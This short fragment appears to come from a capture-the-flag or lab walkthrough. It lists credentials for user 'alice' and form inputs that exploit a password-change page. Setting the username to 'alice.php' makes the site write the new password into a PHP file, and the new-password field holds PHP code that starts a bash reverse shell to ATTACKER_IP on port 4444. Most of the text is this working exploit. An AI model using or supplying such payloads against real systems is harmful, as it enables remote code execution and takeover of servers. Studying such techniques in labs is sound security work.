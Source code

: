 User-> alice:abc123

Payload:

into Username: alice.php

into Old password: abc123

into New password (remove space between < and ?): RAW:< ?php exec("/bin/bash -c 'exec 5<>/dev/tcp/ATTACKER_IP/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done'");?>